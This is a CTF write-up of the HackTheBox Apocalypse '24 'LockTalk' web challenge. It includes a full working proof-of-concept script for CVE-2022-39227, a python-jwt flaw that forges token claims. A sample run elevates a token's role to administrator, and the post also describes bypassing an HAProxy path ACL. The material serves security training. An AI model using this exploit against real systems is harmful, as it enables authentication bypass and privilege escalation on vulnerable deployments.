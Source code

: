 ```yaml
---
layout: post
title: "web locktalk"
date: 2024-03-14 17:18:49 -0700
categories: ctfs
description: The "Web Lock Talk" challenge involved reverse engineering an application accessible via a web interface. By examining configuration files, identifying endpoint restrictions, and exploiting a known CVE in a JWT library, participants aimed to bypass access controls and access the hidden flag endpoint.
parent: HackTheBox - Apocalypse '24
grand_parent: CTF Events
event: "hackthebox-apocalypse"
tags:
- "reverse engineering"
- "web security"
- "access controls"
- "JWT"
- "CVE"
- "exploitation"
---
```


## Web Lock Talk - Reverse Engineering
The "Web Lock Talk" challenge presented a web security puzzle requiring reverse engineering skills to bypass access controls and access a hidden flag endpoint. Despite being comparatively easier than other challenges, obtaining the source code was crucial for a proper solution.

### Analysis and Exploitation:
Upon reviewing the challenge files, including the Dockerfile and configuration files, we gained insight into the infrastructure and application requirements. Notably, examining the HAProxy configuration revealed endpoint restrictions and backend configurations. Additionally, identifying a specific CVE in the Python JWT library hinted at a potential avenue for exploitation.
### HAProxy ACL
```
http-request deny if { path_beg,url_dec -i /api/v1/get_ticket }
```
### Python Requirements
```
uwsgi
Flask
requests
python_jwt==3.3.3
```
### Our target
```python
@api_blueprint.route('/flag', methods=['GET'])
@authorize_roles(['administrator'])
def flag():
    return jsonify({'message': current_app.config.get('FLAG')}), 200
```
### CVE POC for python_jwt<=3.3.3
```python
#!/usr/bin/env python3
# Proof of concept for the CVE-2022-39227. According to this CVE, there is a flaw in the JSON Web Token verification. It is possible with a valid token to re-use its signature with moified claims. 
# 
# Application: python-jwt
# Infected version: < 3.3.4
# CVE: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-39227
#
# Dependencies: jwcrypto, json, argparse
# Author: user0x1337
# Github: https://github.com/user0x1337
#
from json import loads, dumps
from jwcrypto.common import base64url_decode, base64url_encode
import argparse

parser = argparse.ArgumentParser(prog='CVE-2022-39227-PoC', description='Proof of Concept for the JWT verification bug in python-jwt version < 3.3.4')
parser.add_argument('-j', '--jwt_token', required=True, dest='token', help='Original and valid JWT Token returned by the application')
parser.add_argument('-i', '--injected_claim', required=True, dest='claim', help='Inject claim using the form "key=value", e.g. "username=admin". Use "," for more claims (e.g. username=admin,id=3)')
args = parser.parse_args()

# Split JWT in its ingredients
[header, payload, signature] = args.token.split(".")
print(f"[+] Retrieved base64 encoded payload: {payload}")

# Payload is relevant
parsed_payload = loads(base64url_decode(payload))
print(f"[+] Decoded payload: {parsed_payload}")

# Processing of the user input and inject new claims
try:
    claims = args.claim.split(",")
    for c in claims:
        key, value = c.split("=")
        parsed_payload[key.strip()] = value.strip()
except:
    print("[-] Given claims are not in a valid format")
    exit(1)

# merging. Generate a new payload
print(f'[+] Inject new "fake" payload: {parsed_payload}')
fake_payload = base64url_encode((dumps(parsed_payload, separators=(',', ':'))))
print(f'[+] Fake payload encoded: {fake_payload}\n')

# Create a new JWT Web Token
new_payload = '{"  ' + header + '.' + fake_payload + '.":"","protected":"' + header + '", "payload":"' + payload + '","signature":"' + signature + '"}'
print(f'[+] New token:\n {new_payload}\n')
print(f'Example (HTTP-Cookie):\n------------------------------\nauth={new_payload}')
```
### Exploiting the CVE(s):
By leveraging the identified CVE, which allowed bypassing token signing, we devised a plan to manipulate our role from guest to administrator. After browsing to the site and encountering access restrictions, we employed URL encoding to circumvent the ACL blocking access to the "get ticket" endpoint. Subsequently, we generated a ticket and validated its functionality in the "chat" endpoint.
#### Bypassing ACL
The base page

![alt text](../../../assets/images/ctf/events/hackthebox-apocalypse-24/2024-03-14-web-locktalk.md/2024-03-14-web-locktalk/image.png)

The /api/v1/get_ticket endpoint

![alt text](../../../assets/images/ctf/events/hackthebox-apocalypse-24/2024-03-14-web-locktalk.md/2024-03-14-web-locktalk/image-1.png)

Burpsuite request with altered URI, couldn't use urlencoding as ACL explicitly transcoded it before passing it through to the app

![alt text](../../../assets/images/ctf/events/hackthebox-apocalypse-24/2024-03-14-web-locktalk.md/2024-03-14-web-locktalk/image-2.png)

Contents of the returned JWT through CyberChef

![alt text](../../../assets/images/ctf/events/hackthebox-apocalypse-24/2024-03-14-web-locktalk.md/2024-03-14-web-locktalk/image-3.png)


### Obtaining the Flag:
Despite accessing the chat endpoint, our primary goal was to reach the hidden "flag" endpoint restricted to administrators. Utilizing the CVE exploit, we crafted a new JWT token with an elevated role and injected it into the request header. This allowed us to browse to the "flag" endpoint successfully and obtain the desired results.

#### JWT CVE
```sh
python cve.py -j eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9.eyJleHAiOjE3MTA2MjQ4MjMsImlhdCI6MTcxMDYyMTIyMywianRpIjoiRkpaWEF4LTVYREZrNkNQZmpVTkF0QSIsIm5iZiI6MTcxMDYyMTIyMywicm9sZSI6Imd1ZXN0IiwidXNlciI6Imd1ZXN0X3VzZXIifQ.HDoQGwwpJJxzxDJg04TegMmVixxGkOkxFvQ--gdRafTv6XNpqZCCNpXksS-WqH_sogj5jUbOULv7bY8ZOFWRzYlKg0sH9kIkYuHBXA2g19htbwq0Vs2YNARGmL28NwVv9p6VmdsoavZsoqB2m3uQ2s-vTD6OzDpe887cwiRv8TidkuxcP4m6PUhrlbvPt4hHYJzhOtRx2GICs38yDj-n1bWOKqfY6mQ6PBURGRvcHugH31vCUwI2REtGqvfTgFbFyfVPLiVj47K_tBwlD-lm9qPd4HnROhsKEC0kJOHUjZCc7Zz0RezYFLNtNNn0ndL5Sbt5uuPnRlzX6MeQQ5l5GQ -i role="administrator"
[+] Retrieved base64 encoded payload: eyJleHAiOjE3MTA2MjQ4MjMsImlhdCI6MTcxMDYyMTIyMywianRpIjoiRkpaWEF4LTVYREZrNkNQZmpVTkF0QSIsIm5iZiI6MTcxMDYyMTIyMywicm9sZSI6Imd1ZXN0IiwidXNlciI6Imd1ZXN0X3VzZXIifQ
[+] Decoded payload: {'exp': 1710624823, 'iat': 1710621223, 'jti': 'FJZXAx-5XDFk6CPfjUNAtA', 'nbf': 1710621223, 'role': 'guest', 'user': 'guest_user'}
[+] Inject new "fake" payload: {'exp': 1710624823, 'iat': 1710621223, 'jti': 'FJZXAx-5XDFk6CPfjUNAtA', 'nbf': 1710621223, 'role': 'administrator', 'user': 'guest_user'}
[+] Fake payload encoded: eyJleHAiOjE3MTA2MjQ4MjMsImlhdCI6MTcxMDYyMTIyMywianRpIjoiRkpaWEF4LTVYREZrNkNQZmpVTkF0QSIsIm5iZiI6MTcxMDYyMTIyMywicm9sZSI6ImFkbWluaXN0cmF0b3IiLCJ1c2VyIjoiZ3Vlc3RfdXNlciJ9

[+] New token:
 {"  eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9.eyJleHAiOjE3MTA2MjQ4MjMsImlhdCI6MTcxMDYyMTIyMywianRpIjoiRkpaWEF4LTVYREZrNkNQZmpVTkF0QSIsIm5iZiI6MTcxMDYyMTIyMywicm9sZSI6ImFkbWluaXN0cmF0b3IiLCJ1c2VyIjoiZ3Vlc3RfdXNlciJ9.":"","protected":"eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9", "payload":"eyJleHAiOjE3MTA2MjQ4MjMsImlhdCI6MTcxMDYyMTIyMywianRpIjoiRkpaWEF4LTVYREZrNkNQZmpVTkF0QSIsIm5iZiI6MTcxMDYyMTIyMywicm9sZSI6Imd1ZXN0IiwidXNlciI6Imd1ZXN0X3VzZXIifQ","signature":"HDoQGwwpJJxzxDJg04TegMmVixxGkOkxFvQ--gdRafTv6XNpqZCCNpXksS-WqH_sogj5jUbOULv7bY8ZOFWRzYlKg0sH9kIkYuHBXA2g19htbwq0Vs2YNARGmL28NwVv9p6VmdsoavZsoqB2m3uQ2s-vTD6OzDpe887cwiRv8TidkuxcP4m6PUhrlbvPt4hHYJzhOtRx2GICs38yDj-n1bWOKqfY6mQ6PBURGRvcHugH31vCUwI2REtGqvfTgFbFyfVPLiVj47K_tBwlD-lm9qPd4HnROhsKEC0kJOHUjZCc7Zz0RezYFLNtNNn0ndL5Sbt5uuPnRlzX6MeQQ5l5GQ"}

Example (HTTP-Cookie):
------------------------------
auth={"  eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9.eyJleHAiOjE3MTA2MjQ4MjMsImlhdCI6MTcxMDYyMTIyMywianRpIjoiRkpaWEF4LTVYREZrNkNQZmpVTkF0QSIsIm5iZiI6MTcxMDYyMTIyMywicm9sZSI6ImFkbWluaXN0cmF0b3IiLCJ1c2VyIjoiZ3Vlc3RfdXNlciJ9.":"","protected":"eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9", "payload":"eyJleHAiOjE3MTA2MjQ4MjMsImlhdCI6MTcxMDYyMTIyMywianRpIjoiRkpaWEF4LTVYREZrNkNQZmpVTkF0QSIsIm5iZiI6MTcxMDYyMTIyMywicm9sZSI6Imd1ZXN0IiwidXNlciI6Imd1ZXN0X3VzZXIifQ","signature":"HDoQGwwpJJxzxDJg04TegMmVixxGkOkxFvQ--gdRafTv6XNpqZCCNpXksS-WqH_sogj5jUbOULv7bY8ZOFWRzYlKg0sH9kIkYuHBXA2g19htbwq0Vs2YNARGmL28NwVv9p6VmdsoavZsoqB2m3uQ2s-vTD6OzDpe887cwiRv8TidkuxcP4m6PUhrlbvPt4hHYJzhOtRx2GICs38yDj-n1bWOKqfY6mQ6PBURGRvcHugH31vCUwI2REtGqvfTgFbFyfVPLiVj47K_tBwlD-lm9qPd4HnROhsKEC0kJOHUjZCc7Zz0RezYFLNtNNn0ndL5Sbt5uuPnRlzX6MeQQ5l5GQ"}
```

Using the token in the request

![alt text](../../../assets/images/ctf/events/hackthebox-apocalypse-24/2024-03-14-web-locktalk.md/2024-03-14-web-locktalk/image-4.png)

### Conclusion:
The "Web Lock Talk" challenge exemplified the importance of thorough analysis and exploitation of known vulnerabilities in web applications. By strategically leveraging the identified CVE, we bypassed access controls and achieved the desired outcome. This experience highlights the significance of understanding application security mechanisms and exploiting vulnerabilities to solve complex web security challenges.

